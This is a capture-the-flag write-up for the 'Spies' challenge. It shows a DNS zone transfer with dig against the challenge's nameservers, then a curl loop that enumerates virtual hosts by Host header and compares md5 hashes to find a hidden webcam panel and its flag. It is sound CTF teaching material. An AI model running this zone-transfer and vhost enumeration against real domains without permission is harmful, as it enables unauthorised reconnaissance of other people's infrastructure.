

## Spies (MYDNS)

> Watch out from those prying eyes! It seems someone is opening everything to the world, find that webcam and you will see for yourself!
> 
> https://mydns.webcam/

### Solution

When we accessed the URL we were presented with "*My .webcam DNS*" web panel that allegedly was supposed to let users create their own subdomains for mydns.webcam domain.



What surprised us most is that it really worked! Participants could create their own subdomains leading to whatever IP that were later really visible in the DNS system.

However since this wasn't web task and panel had captchas we didn't even bother checking it more.

We decided to find authoritative nameservers for mydns.webcam and check it for zone transfer. It worked!

```bash
$ dig +trace +short NS mydns.webcam
...
NS ns1.ctf.site. from server 34.198.251.163 in 141 ms.
NS ns2.ctf.site. from server 34.198.251.163 in 141 ms.

$ dig @ns1.ctf.site. axfr mydns.webcam

; <<>> DiG Ubuntu <<>> @ns1.ctf.site. axfr mydns.webcam
; (1 server found)
;; global options: +cmd
mydns.webcam.       300 IN  SOA mydns.webcam. root.mydns.webcam. 1709161543 300 86400 2419200 604800
mydns.webcam.       300 IN  NS  ns1.ctf.site.
mydns.webcam.       300 IN  NS  ns2.ctf.site.
mydns.webcam.       300 IN  A   34.231.38.24
mydns.webcam.       300 IN  TXT "v=spf1 a -all"
mydns.webcam.       300 IN  TXT "1.Th3_k1ng_0f_DNS_"
_dmarc.mydns.webcam.    300 IN  TXT "v=DMARC1; p=reject; sp=reject; pct=100; aspf=s"
_35283._tcp.mydns.webcam. 300   IN  TLSA    3 1 1 117322A858CDB345000332E616E645F4372797074305F000D11AC030 CE94E163
abandoned.mydns.webcam. 300 IN  A   34.231.38.24
abc.mydns.webcam.   300 IN  A   34.231.38.24
aberdeen.mydns.webcam.  300 IN  A   34.231.38.24
absence.mydns.webcam.   300 IN  A   34.231.38.24
accepts.mydns.webcam.   300 IN  A   34.231.38.24
accessible.mydns.webcam. 300    IN  A   34.231.38.24
achievement.mydns.webcam. 300   IN  A   34.231.38.24
adequate.mydns.webcam.  300 IN  A   34.231.38.24
admin.mydns.webcam. 300 IN  A   34.231.38.24
admission.mydns.webcam. 300 IN  A   34.231.38.24
admzone.mydns.webcam.   300 IN  A   34.231.38.24
advantage.mydns.webcam. 300 IN  A   34.231.38.24
affect.mydns.webcam.    300 IN  A   34.231.38.24
...
```

Some problem was that this zone also contained records added by participants.

We decided to filter all A records pointing to 34.231.38.24 (most frequent IP and also IP of mydns.webcam) and query this IP with each subdomain (as a vhost).

```bash
$ cat subdomains.txt | while read subdom; do curl -k -H "Host: ${subdom}" https://34.231.38.24/ > output/${subdom.html}; done
```

As a result we received only three different versions of output pages:

```bash
$ md5sum output/* | cut -d' ' -f 1 | sort | uniq -c 
    502 15b3fa750b955cd925ef24d77f221cbb
      2 1b9a0fce5de18a960c53685ba0bb9d14
     30 a4cafe6ba279fb374e68aa88a9258a2c

$ md5sum output/* | grep 1b9a0fce5de18a960c53685ba0bb9d14
1b9a0fce5de18a960c53685ba0bb9d14  output/greenhouse.mydns.webcam.html
1b9a0fce5de18a960c53685ba0bb9d14  output/supercam.mydns.webcam.html
```

Next we visited https://greenhouse.mydns.webcam/ and got nice webcam panel with the flag playing at the source 3 video:


Flag: **EKO{spies_everywhere}**
